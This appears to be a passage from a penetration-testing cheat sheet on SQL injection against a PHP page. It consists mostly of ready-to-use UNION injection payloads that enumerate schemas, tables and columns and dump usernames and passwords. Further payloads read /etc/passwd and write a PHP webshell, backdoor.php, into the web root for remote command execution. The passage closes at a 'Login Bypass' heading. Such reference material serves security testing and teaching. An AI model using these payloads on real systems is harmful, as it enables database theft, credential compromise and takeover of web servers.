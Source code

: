## Extracting Data from Database

Now knowing that the third column is for descriptions, we can put there all information.

```
/index.php?id=1 union all select 1, 2, @@version
/index.php?id=1 union all select 1, 2, user()
/index.php?id=1 union all select 1, 2, schema_name from information_schema.schemata
/index.php?id=1 union all select 1, 2, schema_name from information_schema.schemata where schema_name!='information_schema' and schema_name!='performance_schema' and schema_name!='sys' and schema_name!='mysql'
/index.php?id=1 union all select 1, 2, table_name from information_schema.tables
/index.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
/index.php?id=1 union all select 1, username, passwords from users
```

## Read files

Some databases allows us to read or write files in the filesystem.

```
/index.php?id=1 union all select 1, 2, load_file('/etc/passwd')
```
## Retrieving multiple values within a single column

We can also concat multiple values for examples users and passwords and print on a single column.

```
' UNION SELECT username || '~' || password FROM users--
```

The output will be:

```
administrator~s3cure
wiener~peter
carlos~montoya
```
# From SQLi to RCE (PHP)

Since we are allowed to upload files, we can upload a webshell to the web root.

```
/index.php?id=1 union all select 1, 2, "<?php system($_GET['cmd']);?>" into OUTFILE '/var/www/html/backdoor.php'
```

In case of exploiting a **Microsoft SQL Server** check this:

* [SQL Server](../../services/sql-server/)

# Login Bypass
